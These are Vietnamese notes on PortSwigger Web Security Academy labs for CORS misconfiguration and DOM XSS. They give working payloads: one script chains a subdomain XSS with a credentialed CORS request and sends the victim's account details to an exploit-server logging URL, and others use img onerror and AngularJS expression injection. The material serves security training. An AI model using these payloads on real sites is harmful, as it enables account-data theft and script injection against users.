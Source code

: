 

# CORS: 1 bài

## CORS vulnerability with trusted insecure protocols

Context: subdomain `stock.domain chính` bị XSS và subdomain có CORS được phép mang các cookie và key từ domain chính

Payload: 

```html
<script>
    document.location="http://stock.0aa300c60441833c80501215002800e5.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0aa300c60441833c80501215002800e5.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a29005b042a83c0807c11c901020006.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

# Cross-site scripting (XSS): 15 bài 

Dùng cheat sheet: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Extension: DOM Invader (tìm sink, source không hẳn khai thác) 

## DOM XSS in document.write sink using source location.search inside a select element

Context: đầu vào reflect và không chặn bất cứ thứ gì

Nhập ngẫu nhiên input ta thấy hiển thị input ở dưới:

![alt text](image.png)

Đọc code ta thấy, nếu chọn trong các store có sẵn nó sẽ hiển thị, hoặc cũng có thể nhập store đầu vào:

![alt text](image-1.png)

Payload: `https://0a0d00a9038212d682c1420900a50070.web-security-academy.net/product?productId=1&storeId=%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E`

## DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

Context: Xuất hiện `<body ng-app>` -> Dùng framework của AngularJS

Ở đây ta không thể dùng `<>` nên ta nghĩ đến 1 phương án khác, khi dùng 1 framework sẽ có 1 cách thực thi Javascript khác nhau, ở AngularJS có `ng-app` 

Payload: `{{$on.constructor('alert(1)')()}}`
